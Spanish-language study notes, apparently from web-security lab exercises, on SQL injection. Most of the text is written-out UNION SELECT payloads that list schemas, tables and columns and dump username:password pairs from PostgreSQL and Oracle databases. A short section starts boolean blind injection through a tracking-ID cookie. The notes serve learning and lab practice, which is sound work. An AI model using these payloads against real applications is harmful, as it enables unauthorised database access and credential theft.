 Tenemos que aclarar siempre una tabla

Entonces primero mandamos un comando que nos devuelva los esquema
```
'union select NULL,schema_name from information_schema.schemata-- -
```
y ahora si quiero enumerar las tables existentes en esa base de datos
```
union select NULL,table_name from information_schema.tables where table_schema='public'-- -
```
Ahora que nos muestra el nombre del usuario podemos probar para dumpear solo las columnas
```
union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users_qqhmbb'-- -
```
ahora utilizando los nuevos datos de las columnas después del union select y aclaramos la columna con el from :
```
union select NULL,username_egceik||':'||password_yjkzqt from users_qqhmbb-- -
```

Ahora si estamor en [[Oracle]] es similar pero deberíamos agregarle un 'from dual'
```
union select NULL,NULL from dual-- -
```
Ahora para filtrar TODAS las tablas utilizamos esto
```
union select NULL,table_name from all_tables-- -
```
y para ver el propietario de TODAS las tablas 
```
union select NULL,owner from all_tables-- -
```
Para que me muestre solo las tablas dondepeter sea propietario
```
union select NULL,table_name from all_tables where owner = 'PETER'-- -
```
como dumpeo estas COLUMNAS que estoy viendo 
```
union select NULL,column_name from all_tab_columns where owner = 'PETER'-- -

```
Para ver una especifico

```
union select NULL,column_name from all_tab_columns where table_name = 'USERS_TTRJYX'-- - 
```
ahora utilizamos los datos dados para solicitar una nueva query
```
union select NULL,USERNAME_RJGHSE||':'||PASSWORD_XELVSG from USERS_TTRJYX-- -
```

## Blind injection
Esta vez es cuando no odemos ver los cambios que realizamos, la query no la podemos mandar por el link sino que tenemos que hacer otras cositas
![[Pasted image 20240530160842.png]]
la query por detrás sería algo así
```
select * from products where trackingId='RuR0Bwtk0iBFPd9l' and 1=1-- -'
```
 y para que me tome el comentario concatenamos el código del tracking id a lo que deseemos, seleccionames la a de administrator, como es tru nos mostraría 'Welcome back!' si es fácil no nos mostrará nada
 ```
 trackingId=RuR0Bwtk0iBFPd9l' and (select 'a' from users limit 1)='a;
```
![[Burpsuite blin injection 1.png]]
El from users limit 1 hace que filtres por el carácter especial desde la tabla users